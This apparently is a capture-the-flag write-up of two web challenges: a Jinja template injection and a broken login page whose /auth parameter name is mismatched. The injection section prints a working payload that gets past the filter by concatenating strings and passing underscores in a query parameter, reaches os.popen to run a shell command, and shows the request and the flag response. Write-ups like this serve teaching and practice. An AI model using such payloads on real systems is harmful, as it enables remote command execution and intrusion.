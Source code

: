 After some trial and errors I found out you could just concatinate multiple strings to get the keywords we want.

We can't do this with `_` however. So in order to inject underscores, we need to send it in as a query parameter `u` and use `requests.args.u` to use it.

The plan is to inject
`{{request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["popen"]("cat flag")["read"]()}}`

Using the different tricks mentioned, I ended up with the following query:

`
http 35.198.103.37:31612 content=='{{request["appli"+"cation"][request.args.u*2+"globals"+request.args.u*2][request.args.u*2+"buil"+"tins"+request.args.u*2][request.args.u*2+"imp"+"ort"+request.args.u*2]("os")["po"+"pen"](request.args.f)["read"]()}}' u==_ f=='cat flag'
`
```
HTTP/1.0 200 OK
Content-Length: 69
Content-Type: text/html; charset=utf-8
Date: Mon, 07 Dec 2020 16:14:17 GMT
Server: Werkzeug/1.0.1 Python/2.7.12

CTF{75df3454a132fcdd37d94882e343c6a23e961ed70f8dd88195345aa874c63e63}
```

### broken-login
```
Intern season is up again and our new intern Alex had to do 
a simple login page. Not only the login page is not working properly, 
it is also highly insecure...
```

Seems like `Alex` created a broken login page. It does not seem to work at all.
You can log in with a username and password, and get redirected to `/auth` where the
username and password values have been swapped out with hex or some hashes.

```shell
$ http POST 'http://35.234.65.24:31441/login' name==admin password==admin
HTTP/1.1 302 Found
Content-Length: 0
Content-Type: text/plain; charset=utf-8
Date: Mon, 07 Dec 2020 16:23:42 GMT
Location: /auth?username=61646d696e&password=c7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ec
```

When analysing the parameters, you can see that the username is just `admin` in hex encoding.
The password is a sha512 hash of the password we sent in.

After being redirected, nothing seems to happen. We get a 200 OK, but nothing that indicates that we successfully logged in or not. 

I then noticed that the `name` parameter from `/login` is not `username` when being redirected to `/auth`. 
After changing the parameter for `/auth` to `name` instead of `username`, everything seems to work!
